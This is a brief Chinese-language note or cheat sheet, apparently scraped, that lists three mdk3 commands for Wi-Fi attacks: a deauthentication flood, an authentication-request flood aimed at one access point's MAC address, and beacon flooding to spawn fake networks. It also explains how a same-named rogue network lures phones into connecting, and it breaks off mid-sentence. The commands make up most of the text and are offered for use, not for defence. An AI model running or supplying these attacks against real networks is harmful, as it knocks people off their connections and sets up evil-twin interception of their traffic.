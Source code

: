 `mdk3 wlan0mon d`范围打（发死亡包）
`mdk3 wlan0mon a -a 14:69:A2:A0:82:91`发送大量的验证请求，从而使真正的请求被搁置
`mdk3 wlan0mon b`制作大量虚假的wifi

制造虚假wifi，因为wifi都是通过名字来获取的，像有一个`name`的wifi，如果同时又另一个叫`name`的WiFi的话，手机会自动连接最近，信号最强的那一个，